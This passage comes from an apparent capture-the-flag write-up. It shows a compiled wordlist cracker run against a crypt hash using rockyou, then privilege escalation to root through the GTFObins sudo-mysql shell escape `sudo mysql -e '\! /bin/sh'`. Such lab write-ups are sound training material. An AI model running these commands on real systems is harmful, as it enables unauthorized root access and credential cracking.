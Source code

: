 I also used [Nuitka](https://github.com/Nuitka/Nuitka) to compile the program to see if it
ran any faster for fun.
```bash 
./password_hash.dist/password_hash \$1\$\$bOKpT2ijO.XcGlpjgAup9/ ../assets/rockyouutf8.txt 
cracked: [redacted]
Time:  742.5078724539999
```

The answer is no.

## privilege escalation 

[GTFObins](https://gtfobins.github.io/gtfobins/mysql/#sudo) is consulted once again.
`sudo mysql -e '\! /bin/sh'` is the command given to gain a root shell.
I add in the password cracked earlier.
`sudo mysql -e '\! /bin/sh'-p[redacted]`. The alternative path to root
has been performed. There are two more paths to root, I believe. I will
leave finding them as an exercise for the reader. This was a lot of fun.
I hope this write-up was interesting or informative.
